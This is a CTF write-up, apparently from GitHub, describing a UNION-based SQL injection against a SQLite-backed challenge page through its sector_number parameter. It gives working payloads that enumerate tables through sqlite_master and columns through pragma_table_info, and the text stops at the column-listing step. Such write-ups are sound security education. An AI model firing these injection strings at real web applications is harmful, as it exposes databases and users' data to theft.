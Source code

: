 web application page that accepts a sector_number parameter and returns sector_details.
A UNION-based SQL injection in a sector_details query allowed disclosure of internal SQLite tables and a flagged event
The injection point is inside a single-quoted parameter. The database backend is SQLite (identified via the no such table: information_schema.tables error and the presence of sqlite_master).

# CTF Writeup — "Zion" SQL Injection (SQLite)

**Author:** Kipruto (submission)

**Target:** web application page that accepts a `sector_number` parameter and returns `sector_details`.

**Date tested:** (CTF)

**Summary:**
A UNION-based SQL injection in a `sector_details` query allowed disclosure of internal SQLite tables and a flagged event containing the CTF flag `MWR{fl4g_h3r3}`. The injection point is inside a single-quoted parameter. The database backend is **SQLite** (identified via the `no such table: information_schema.tables` error and the presence of `sqlite_master`).

---

## 1. Initial reconnaissance
* Visited the "Select a Sector" page and controlled the `sector_number` parameter.
* Observed an error when trying to query `information_schema.tables`:

Query malformed: no such table: information_schema.tables

Executed Query:
SELECT * FROM sector_details WHERE sector_number = '"Zion"' union SELECT * FROM information_schema.tables; -- -'
<img width="1053" height="616" alt="image" src="https://github.com/user-attachments/assets/bbefbb4e-13a1-42cd-9e83-4ee17f30bb32" />
* Error indicates the backend is **SQLite** (no `information_schema`). `sqlite_master` is the appropriate schema table.


## 2. Determining injection characteristics
* Confirmed the injection occurs inside a single-quoted string (payload must close the existing `'`).
* Found correct `UNION` column layout by testing with `NULL` placeholders.
* Discovered there are **5 columns** in the original `SELECT` and the **second column** is reflected in the page's output.

Example successful enumeration payload used to list tables:
' UNION SELECT NULL, group_concat(name), NULL, NULL, NULL FROM sqlite_master WHERE type='table'--
<img width="1017" height="816" alt="image" src="https://github.com/user-attachments/assets/9606c259-8925-44b0-9fde-3e1281951bf9" />
fl4gged_events,sqlite_sequence,jokes,sector_details,users

## 3. Exploitation — enumerating schema and extracting data
Because this is SQLite, `sqlite_master` and `pragma_table_info(...)` were used.
### 3.1 List tables (already discovered)
' UNION SELECT NULL, group_concat(name), NULL, NULL, NULL FROM sqlite_master WHERE type='table'--
### 3.2 List columns for a table (example: `fl4gged_events`)
' UNION SELECT NULL, group_concat(name), NULL, NULL, NULL FROM pragma_table_info('fl4gged_events')--
<img width="984" height="759" alt="image" src="https://github.com/user-attachments/assets/c4ec1b29-275c-4736-b8e0-9c0c03eec203" />
